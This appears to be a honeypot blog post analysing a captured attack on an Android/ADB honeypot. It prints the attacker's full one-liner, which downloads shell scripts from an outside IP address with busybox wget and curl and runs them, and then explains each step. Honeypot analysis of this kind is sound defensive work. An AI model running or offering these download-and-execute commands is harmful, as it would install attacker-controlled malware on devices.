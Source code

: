 
### Analysis of Malicious Payload - Example

***Don't know what Linux commands you are seeing? Use [explainshell](https://explainshell.com/).***

One of the payloads I found on the honeypot was:<br>
`cd /data/local/tmp/; busybox wget http://45.61.184.4/w.sh; sh w.sh; curl http://45.61.184.4/c.sh;`<br>
Broken into steps we can see the order of events:<br>
1 . `cd /data/local/tmp/`<br>
2 . `busybox wget http://45.61.184.4/w.sh`<br>
3 . `sh w.sh`<br>
4 . `curl http://45.61.184.4/c.sh`<br>

*This looks like the attacker is trying to change directories.*

`cd /data/local/tmp/;`

*Here the attacker is trying to tell busybox to download `w.sh` file.*

`busybox wget http://45.61.184.4/w.sh;` 

*Now the attacker attempts to invoke the default shell for the system and run `w.sh`.*

`sh w.sh;` 

*Finally, the attacker trys to download another file named `c.sh`.*

`curl http://45.61.184.4/c.sh;`

*Now the attacker attempts to invoke the default shell for the system and run `c.sh`.*

`sh c.sh`

**Remember** this is just one log event. Likely this means that this attacker will enter the honeypot again later to run the `c.sh` script. 

---

### What is the `c.sh` malicious file that was curl'ed into the honeypot?

I used a [Linode](https://www.linode.com/) instance to mimic the commands my attackers used. 

**Why a separate instance?**

I wanted to run the commands on a physically removed virtualized environment from my honeypot, personal VMs, and personal network at home. 

I downloaded the c.sh contents into a c.sh file and then ran the cat command to print the file contents to the screen. So we can see that the c.sh downloads each of these: 

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/adbhoney4.PNG)
